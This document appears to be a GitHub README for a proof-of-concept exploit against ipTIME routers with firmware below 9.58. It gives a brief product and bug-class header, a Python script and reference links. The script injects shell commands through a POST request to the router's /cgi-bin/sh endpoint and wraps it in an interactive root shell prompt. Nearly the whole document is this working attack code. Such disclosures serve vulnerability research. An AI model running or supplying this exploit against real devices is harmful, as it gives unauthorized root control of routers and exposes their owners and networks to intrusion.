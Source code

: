 # ipTIME Router firmwares < 9.58 RCE with root privileges
## The Basics
Product : <a href="https://pierrekim.github.io/blog/2015-05-05-127-iptime-routers-wifiaps-modems-firewalls-models-vulnerable-with-RCE-with-root-privileges.html">total 127 devices were affected (ipTIME Router firmwares < 9.58)</a>
Tested Version : ipTIME N604R Version 9.24
Bug-class : Remote Code Execution (Command Injection)

## Exploit PoC
```python
import os
import sys
import requests

def exploit(command, current_dir):
    url = 'http://192.168.0.1/cgi-bin/sh'
    headers = {
        'Content-Type': 'text/plain',
        'User-Agent': 'Mozilla/5.0'
    }
    if not command.endswith(';'):
        command+=";"
    data = f"X=X;echo 'Content-type: text/plain';echo;cd {current_dir};{command}"
    res = requests.post(url, headers=headers, data=data)
    return res.text

if __name__ == "__main__":
    current_dir = "/"
    while True:
        command = input(f"[ root@192.168.0.1:{current_dir} ]\n $ ")
        if command.startswith("cd "):
            path = command.split(" ", 1)[1]
            current_dir = os.path.normpath(os.path.join(current_dir, path))
            continue
        elif command == "clear" or command == "cls":
            os.system("clear")
        elif command == "exit":
            sys.exit()
        else:
            try:
                result = exploit(command, current_dir)
                if command.strip().startswith("pwd"):
                    current_dir = result.strip()
                print('\n' + result)
            except:
                pass
```

## Reference
<a href="https://pierrekim.github.io/blog/2015-07-01-poc-with-RCE-against-127-iptime-router-models.html">https://pierrekim.github.io/blog/2015-07-01-poc-with-RCE-against-127-iptime-router-models.html</a>
